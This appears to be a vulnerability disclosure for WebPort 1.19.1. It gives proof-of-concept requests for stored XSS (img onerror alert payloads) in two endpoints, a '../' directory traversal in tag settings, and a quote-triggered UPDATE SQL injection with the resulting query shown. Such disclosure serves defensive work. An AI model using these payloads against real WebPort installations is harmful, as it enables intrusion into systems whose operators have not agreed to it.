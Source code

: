 # WebPort 1.19.1

---

# Stored xss  in /access/setup?type-conn

in /access/setup?type-conn, in connection name，parameter name will be injected into HTML content with out any filter

```
http://127.0.0.1:8188/access/actionedit

type=conn&ip=localhost&name=localhost'%3Cimg+src%3D%2F+onerror%3Dalert(1)%3E&allow=1&showpageinfo=1&pin=1&print=1&autologin=

```
![image.png-72.2kB][1]

# Directory traversal in tags of system settings

in tags of system settings, we can create a tags file just like tags.csv in `\WebPort\system\tags`.

and if we set tag=`../test`，and we will create a test.csv in `\WebPort\system\`

![image.png-70.5kB][2]

![image.png-48.3kB][3]

# Stored xss  in /script/listcalls

in /script/listcalls, in new called script, the description will be injected into HTML content with out any filter.

```
http://127.0.0.1:8188/script/actionedit

type=callscript&id=test&desc=test%3Cimg+src%3D%2F+onerror%3Dalert(1)%3E
```

![image.png-50.5kB][4]

# POST Stored xss and SQL injection in  /log?type=error

in /access/setup?type-conn, in connection name，parameter name will be injected into HTML content with out any filter.

but if we set a connection name with a double quote or a single quote,just like `test"` or `test'`, the connection name will be injected into UPDATE SQL query.

![image.png-32.8kB][5]

just like 
```
UPDATE Data SET data = '{"default":{"IP":"default","Name":"default","Allow":true,"AllowPin":false,"Fullscreen":false,"ShowPageInfo":true,"Zoom":false,"Scale":false,"EmbedPdf":false,"PinSidemenu":true,"AllowScriptCall":false,"AllowPrint":true,"AutoLogin":"","AllowAccessTicket":false,"AllowAccessTicketCreation":false,"DisplayConfiguration":{}},"localhost":{"IP":"localhost","Name":"localhost'

","Allow":true,"AllowPin":false,"Fullscreen":false,"ShowPageInfo":true,"Zoom":false,"Scale":false,"EmbedPdf":false,"PinSidemenu":true,"AllowScriptCall":false,"AllowPrint":true,"AutoLogin":"","AllowAccessTicket":false,"AllowAccessTicketCreation":false,"DisplayConfiguration":{}}}' WHERE deviceguid = '59E1AAD5-8DF6-4A3A-88BD-E311A536F71B' AND key = 'Connections'
```

it is a UPDATE SQL injection.

if you set connection name just like a `localhost <img src="/" onerror="alert(1)">`, so this name will  be injected into HTML content with out any filter.

![image.png-98.4kB][6]

![image.png-34.6kB][7]




  [1]: http://static.zybuluo.com/LoRexxar/7f1ccmu1ljn1a3r93a3uk1po/image.png
  [2]: http://static.zybuluo.com/LoRexxar/2fwd8eczezrfjw6leijcfvr3/image.png
  [3]: http://static.zybuluo.com/LoRexxar/uaoqmap7bavj8oxm0wcdrx0w/image.png
  [4]: http://static.zybuluo.com/LoRexxar/kur1cwwkvynr90byb6vlveni/image.png
  [5]: http://static.zybuluo.com/LoRexxar/xrt3ttlhbl2wylb5m93144uw/image.png
  [6]: http://static.zybuluo.com/LoRexxar/j93e9wxdpg86bh6yz5v6u5ue/image.png
  [7]: http://static.zybuluo.com/LoRexxar/mqyfm0diuu2rr1q74f57vohd/image.png